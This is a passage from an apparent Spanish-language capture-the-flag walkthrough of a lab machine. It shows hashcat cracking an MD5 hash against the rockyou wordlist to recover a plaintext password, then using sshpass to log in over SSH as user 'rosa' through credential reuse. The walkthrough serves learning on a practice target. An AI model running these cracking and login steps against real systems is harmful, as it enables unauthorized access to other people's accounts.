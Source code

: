 ```console
Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

63ed86ee9f624c7b14f1d4f43dc251a5:unicorniosrosados        
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 63ed86ee9f624c7b14f1d4f43dc251a5
Time.Started.....: Mon Oct 21 16:13:47 2024 (1 sec)
Time.Estimated...: Mon Oct 21 16:13:48 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2649.0 kH/s (0.14ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2983936/14344385 (20.80%)
Rejected.........: 0/2983936 (0.00%)
Restore.Point....: 2981888/14344385 (20.79%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: unicornn -> underwear88
Hardware.Mon.#1..: Util: 42%

Started: Mon Oct 21 16:13:46 2024
Stopped: Mon Oct 21 16:13:50 2024
```

Vemos la credencial `unicorniosrosados`, vamos a ver si el usuario `rosa` ha reutilizado credenciales.

Y vemos que sí.
```console
$ sshpass -p 'unicorniosrosados' ssh rosa@10.129.201.7                                                                                                                                                                                                                  
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)                                                                                                                                                                                                              

 * Documentation:  https://help.ubuntu.com                          
 * Management:     https://landscape.canonical.com                                                                                      
 * Support:        https://ubuntu.com/pro                           

 System information as of Mon 21 Oct 2024 12:14:48 PM UTC                                                                               

  System load:           0.0                                        
  Usage of /:            73.9% of 5.08GB                            
  Memory usage:          25%                                        
  Swap usage:            0%                                         
  Processes:             230                                        
  Users logged in:       0                                          
  IPv4 address for eth0: 10.129.201.7                               
  IPv6 address for eth0: dead:beef::250:56ff:fe94:21ec                                                                                  
```